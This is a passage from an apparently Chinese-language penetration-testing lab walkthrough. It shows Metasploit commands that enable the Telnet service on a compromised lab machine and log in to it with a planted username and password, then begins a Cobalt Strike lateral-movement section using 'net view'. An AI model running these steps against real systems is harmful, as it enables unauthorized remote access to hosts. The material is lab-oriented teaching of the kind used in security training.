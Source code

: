 ### telnet 远程连接服务 (141 机器)：

Telnet（"Telecommunication Network" 的缩写）是一种用于在计算机之间进行远程终端连接的协议。Telnet 服务允许用户通过网络远程登录到远程主机，并在远程主机上执行命令，就像直接在本地计算机上执行一样。Telnet 是一个简单的文本协议，主要用于远程管理和调试。

开启 23 端口并打开 telnet 服务：

```plain
set COMMAND sc config tlntsvr start= auto
set COMMAND net start telnet
```

接下来 telnet 连接

```plain
use auxiliary/scanner/telnet/telnet_login
set RHOSTS 192.168.52.141
set username hack
set PASSWORD qaz@123
exploit
```

自行连接：

```plain
telnet 192.168.52.141
```

[![](assets/1701827767-bc8159be78b492db12001b2d7ef2e3aa.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231202193055-41aa9b50-9106-1.png)

## CS 横向渗透 (138 机器)：

net view 首先查看域内信息：

[![](assets/1701827767-c97864747f506142b422ec36ac572689.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231202193112-4be78434-9106-1.png)
